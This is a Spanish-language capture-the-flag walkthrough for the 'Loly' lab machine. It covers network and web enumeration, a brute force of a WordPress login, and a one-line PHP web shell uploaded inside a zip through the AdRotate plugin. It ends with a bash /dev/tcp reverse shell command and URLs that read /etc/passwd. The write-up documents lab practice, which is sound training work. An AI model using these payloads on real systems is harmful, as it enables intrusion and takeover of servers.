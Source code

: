 # Loly

Realizamos un escaneo en la red:

```bash
> sudo arp-scan -I eth0 --localnet
```

![sudo arp-scan -I eth0 --localnet](arp-scan.png)

---

Vemos que hay una máquina VMWare con ip 192.168.1.25. 
Comprobamos que la máquina esté activa:

```bash
> ping -c 1 192.168.1.25
```

```bash
PING 192.168.1.25 (192.168.1.25) 56(84) bytes of data.
64 bytes from 192.168.1.25: icmp_seq=1 ttl=64 time=3.08 ms

--- 192.168.1.25 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 3.076/3.076/3.076/0.000 ms
```

---

Ahora, realizamos un escaneo simple de puertos:

```bash
> sudo nmap -sS -p1-1000 -Pn 192.168.1.25
```
 
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-15 13:51 EST
Nmap scan report for ubuntu.home (192.168.1.25)
Host is up (0.0086s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:01:03:D9 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.62 seconds
```

Inicialmente, parece haber un puerto abierto: el 80.

---

Miramos que version de servidor http se está utilizando:

```basó
> sudo nmap -sV -p 80 -n -Pn 192.168.1.25 
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-15 13:53 EST
Nmap scan report for 192.168.1.25
Host is up (0.0018s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
MAC Address: 00:0C:29:01:03:D9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.48 seconds
```

---

Ahora intentamos mirar qué posible sistema operativo está corriendo dicho servicio, haciendo una búsqueda em google con las siguientes palabras clave: nginx 1.10.3 Launchpad,n Gllí nos aparecerá lo más probable la vesión del SO sobre el que corre el servicio. 
Al parecer está ,corriendo sobre ```Ubuntu Xenial```.

![nginx_launchpadecnpng](nginx_launchpad.png)

---

Miramos qué tologías web están corriendo sobre ese servidor:

```bash
> whatweb 192.168.1.25
```

```bash
http://192.168.1.25 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.10.3 (Ubuntu)], IP[192.168.1.25], Title[Welcome to nginx!], nginx[1.10.3]
```

---

Y ahora miramos la página principal:
![whatweb](2023-01-16_15-45.png)

---

Como no hay nada, buscaremos directorios ocultos posibles:

```bash
> wfuzz -c --hc 404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://192.168.1.25/FUZZ
```

```bash
000000009:   200        25 L     69 W       612 Ch      "# Suite 300, San Franci"
							"sco, California, 94105," 
							"USA."
000000587:   301        7 L      13 W       194 Ch     "wordpress"             
000045240:   200        25 L     69 W       612 Ch     "http://192.168.1.25/#"
```

Podemos ver que hay un directorio wordpress.

---

Dentro del directorio wordpress miramos qué posibles subdirectorios puede haber o páginas.

```bash
> wfuzz -c --hc 404,403,405,500 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://192.168.1.25/wordpress/FUZZ 
```

```bash
000000013:   200        496 L    1474 W     28194 Ch    "#"                     
000000241:   301        7 L      13 W       194 Ch      "wp-content"            
000000786:   301        7 L      13 W       194 Ch      "wp-includes"           
000007180:   301        7 L      13 W       194 Ch      "wp-admin"              
000045240:   200        496 L    1474 W     28194 Ch    "http://192.168.1.25/wordpress/"
```						   
--- 

Al acceder al directorio wordpress desde el navegador esto es lo que vemos:

![wordpress](2023-01-16_15-49.png)

---


Como podemos ver los enlaces hacen referencia a un dominio en concreto, que asumimos es el que aloja el sitio. Por ese motivo, modificaremos /etc/hosts para asignar a la direccion IP el dominio en cuestion:

```bash
   ───┬───────────────────────────────────────────────────────────────────────────────────ó──────
      │ File: /etc/hosts
   ───┼──────────────────────────────────────────────────────────────────────────────────────────
  1   │ 127.0.0.1   localhost
  2   │ 127.0.1.1   kali
  3   │ ::1     localhost ip6-localhost ip6-loopback
  4   │ ff02::1     ip6-allnodes
  5   │ ff02::2     ip6-allrouters
  6   │ 192.168.1.25 loly.lc
```

Al clicar en la primera página, se abre la página principal del blog:

![](2023-01-16_15-59.png)

---

Como vemos que hay una nombre que se repite continuamente, ```loly``` podemos suponer que ese nombre es un posible usuario.
Vamos al panel de administración de wordpress que es accesible.

![wp-login.png](wp-login.png)

Antes de nada probamos las típicas credenciales por defecto: ~Admin~ (no password), ~Admin / Admin~, ~Admin / Admin123~ etc...
Como no nos deja logearnos, podemos probar otras alternativas con el usuario ~loly~.
Tampoco.

Dado que hay mucha probabilidad de que loly sea un usuario válido, podemos intentar hacer un ataque de fuerza bruta para averiguar las credenciales.

Realizamos un script llamado ```bruteForceLogin.sh``` y lo ejecutamos:

```bash
./bruteforceLogin.sh loly /usr/share/wordlists/rockyou.txt  
```

![bruteForceLogin.png](bruteForceLogin.png)

---

Entramos en el panel de administración de wordpress:

http://loly.lc/wordpress/wp-login.php

y no encontramos nada especial. Miramos si hay alguna vulnerabilidad conocida para el tema de wordpress "feminine" pero no hay nada.
Enumeramos qué plugins tiene instalada la web:

![wordpress_plugins.png](wordpress_plugins.png)

Dados los plugins y sus versiones actuales, no encontramos posibles vulnerabilidades que explotar.

---

Hay un ataque con el que podemos crear una posible web-shell, e incluso crear una reverse-shell que consiste en customizar la página de error 404.php
Este método requiere poder configurar los ficheros del tema de wordpress, pero vemos que no es posible.

![theme-file-editor.png](theme-file-editor.png)

Investigando vemos que podría haber una manera de resolver esto:

![theme-file-editor-solution.png](theme-file-editor-solution.png)

Pero no funciona, porque no hay manera de encontrar las páginas donde setear esto.

También podemos intentar instalar algún plugin vulnerable a php pero no podemos instalar plugins porque no tenemos privilegios para ello a pesar de ser admnistradores del sitio web de wordpress.

![cannot_install_pluggins.png](cannot_install_pluggins.png)

Observando la página del plugin instalado AdRotate, vemos que podemos añadir ficheros de medios.
Entre ellos hay posibilidad de subir ficheros .zip que, según se describe, son descomprimidos automáticamente.
Esto nos permitiría comprimir un fichero php y subirlo camuflado dentro del fichero zip.

Este es el contenido del fichero ```rce.php``` que subiremos dentro del zip:

```php
<?php system($_GET['c']); ?>
```

Tras subirlo pasamos a realizar un reconocimiento para ver si se ha subido correctamente.

![rce-php.png](rce-php.png)

Ahora podríamos examinar el contenido de ficheros clave dentro del sistema de archivos de la máquina víctima. Podríamos hacer

```bash
http://loly.lc/wordpress/wp-content/banners/rce.php?c=cat%20/etc/passwd 
```
o

```bash
http://loly.lc/wordpress/wp-content/banners/rce.php?c=ls%20-la%20/home/loly
``` 

Sin embargo, para trabajar más cómodamente vamos a entablar una reverse shell utilizando el sigui9ente comando como parámetro en la URL:


```bash
bash -c "/bin/bash -i 2&> /dev/tcp/192.196.1.80/443 <0"
``` 
